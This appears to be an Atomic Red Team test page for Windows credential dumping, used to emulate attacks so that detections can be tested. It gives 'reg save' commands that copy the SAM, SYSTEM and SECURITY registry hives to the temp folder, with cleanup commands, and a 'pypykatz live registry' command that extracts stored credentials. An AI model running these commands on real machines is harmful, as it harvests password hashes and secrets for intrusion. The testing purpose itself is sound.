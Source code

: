 ## Atomic Test #1 - Registry dump of SAM, creds, and secrets
Local SAM (SAM & System), cached credentials (System & Security) and LSA secrets (System & Security) can be enumerated
via three registry keys. Then processed locally using https://github.com/Neohapsis/creddump7

Upon successful execution of this test, you will find three files named, sam, system and security in the %temp% directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 5c2571d0-1572-416d-9676-812e64ca9f44






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg save HKLM\sam %temp%\sam
reg save HKLM\system %temp%\system
reg save HKLM\security %temp%\security
```

#### Cleanup Commands:
```cmd
del %temp%\sam >nul 2> nul
del %temp%\system >nul 2> nul
del %temp%\security >nul 2> nul
```





<br/>
<br/>

## Atomic Test #2 - Registry parse with pypykatz
Parses registry hives to obtain stored credentials

**Supported Platforms:** Windows


**auto_generated_guid:** a96872b2-cbf3-46cf-8eb4-27e8c0e85263






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
pypykatz live registry
```
